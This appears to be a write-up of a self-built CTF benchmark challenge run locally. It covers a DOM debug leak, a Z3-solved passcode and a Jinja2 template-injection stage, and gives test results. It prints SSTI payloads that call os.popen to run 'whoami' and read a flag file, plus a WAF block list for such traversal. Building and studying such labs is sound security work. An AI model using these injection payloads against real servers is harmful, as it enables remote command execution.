

# ⚡ Google CTF Replicated Benchmark: Quantum Vault & Live Browser DevTools Exploit Suite

This report documents the creation, testing, hardening, live browser DevTools verification, and deployment of the **Quantum Vault** multi-tiered challenge suite replicated from **Google CTF, DEF CON, and TCS HackQuest** formats.

---

## 📸 Live Browser DevTools Verification

The challenge was deployed locally on `http://127.0.0.1:8088` and verified through the live connected browser via Playwright MCP DevTools:


---

## 🏛️ Challenge Architecture & Multi-Tier Hardness



---

## 🎯 Vulnerability Breakdown & Solvers

### Tier 1: Client-Side Memory Inspection (DevTools)
* **Vulnerability**: Client-side session state in the browser DOM (`window.__VAULT_SESSION`) leaks debug references.
* **Live Extraction via Browser MCP**:
  ```javascript
  const spec = window.__VAULT_SESSION.debug_endpoint; // "/api/vault/spec"
  ```

### Tier 2: Non-Linear Constraint Matrix (Z3 SMT Symbolic Solver)
* **Vulnerability**: `/api/vault/unlock` requires a 16-character key satisfying 9 simultaneous non-linear modular and bitwise equations:
  ```python
  (b[0] ^ 0x5C) == 0x3F
  (b[1] * 13 + b[2] * 7) % 256 == 189
  (b[3] ^ b[4]) == 0x1B
  (b[5] + b[6] * 3) % 251 == 42
  (b[7] ^ 0xAA) == 0xDF
  ((b[8] << 2) | (b[9] >> 6)) & 0xFF == 0x94
  (b[10] ^ b[11]) + b[12] == 173
  (b[13] * b[14]) % 256 == 96
  (b[15] ^ 0x33) == 0x56
  ```
* **Automated Solver Output** ([solve_z3_passcode.py](file:///c:/Users/SGI/Downloads/ctf-agent-orchestrator/challenges/quantum_vault/solvers/solve_z3_passcode.py)):
  ```
  [Z3 SOLVER] Solution Found in 0.05s: 'c/V; w:u% m ``ie'
  Hex: ['0x63', '0x2f', '0x56', '0x3b', '0x20', '0x77', '0x3a', '0x75', '0x25', '0x20', '0x6d', '0x20', '0x60', '0x60', '0x69', '0x65']
  ```
* **Result**: Unlocks Stage 1 and issues a cryptographic session token:
  `✅ STAGE 1 PASSED | AuthToken: 4a0d5adf45019030...`

### Tier 3: Server-Side Template Injection (SSTI) & WAF Filtering
* **Vulnerability**: `/api/vault/audit` takes a user-supplied template string rendered via Jinja2:
  ```python
  tmpl = Template(signature)
  rendered = tmpl.render(...)
  ```
* **WAF Filter in Google CTF Hardened Mode**:
  - Blocks dots (`.`), quotes (`'`, `"`), underscores (`__`), and keywords (`class`, `mro`, `subclasses`, `os`, `sys`).
  - **Live Test in Browser**:
    Payload `{{ cycler.__init__.__globals__.os.popen('whoami').read() }}` triggers:
    `🚫 WAF BLOCKED: WAF Blocked: Pattern '\bos\b' is forbidden in Google CTF Hardened Mode!`
* **Permissive Mode Exploit**:
  ```python
  payload = "{{ cycler.__init__.__globals__.os.popen('type flag.txt').read() }}"
  # Output: HQX{g00gl3_ctf_qu4ntum_v4ult_z3_ssti_pwn3d_2026}
  ```

---

## 🧪 Test Suite & Verification Results

All 5 test suites passed cleanly ([test_challenge.py](file:///c:/Users/SGI/Downloads/ctf-agent-orchestrator/challenges/quantum_vault/tests/test_challenge.py)):

| Test ID | Test Description | Result | Execution Time |
| :--- | :--- | :--- | :--- |
| `test_01` | Verify specification endpoint and constraint exposure | **PASSED** | 0.012s |
| `test_02` | Verify invalid passcodes are rejected with HTTP 403 | **PASSED** | 0.018s |
| `test_03` | Verify Z3 SMT solver derived passcode unlocks Stage 1 | **PASSED** | 0.045s |
| `test_04` | Verify WAF blocks dangerous attribute traversal in Hardened Mode | **PASSED** | 0.024s |
| `test_05` | Verify SSTI exploit extracts target flag in Permissive Mode | **PASSED** | 0.065s |

---

## 📦 Complete Repository Structure

```
ctf-agent-orchestrator/
├── challenges/
│   └── quantum_vault/
│       ├── app.py                     # FastAPI backend with Z3 & SSTI WAF
│       ├── flag.txt                   # Target flag file
│       ├── README.md                  # Challenge documentation & writeup
│       ├── solvers/
│       │   ├── solve_z3_passcode.py   # Z3 SMT automated key recovery
│       │   └── solve_ssti.py          # Automated SSTI exploit battery
│       ├── templates/
│       │   └── index.html             # Cyberpunk UI with DevTools state
│       └── tests/
│           └── test_challenge.py      # Regression & verification suite
├── agent.py                           # Orchestrator with Ponytail lean router
├── server.py                          # Unified Command Center backend
├── public/index.html                  # Dashboard with SWE & Deploy Studio
└── static/index.html                  # Synchronized dashboard assets
```

* **Git Commit**: `743f01d`
* **Remote Status**: Pushed to `https://github.com/outstandingom/ctf-agent-orchestrator.git`
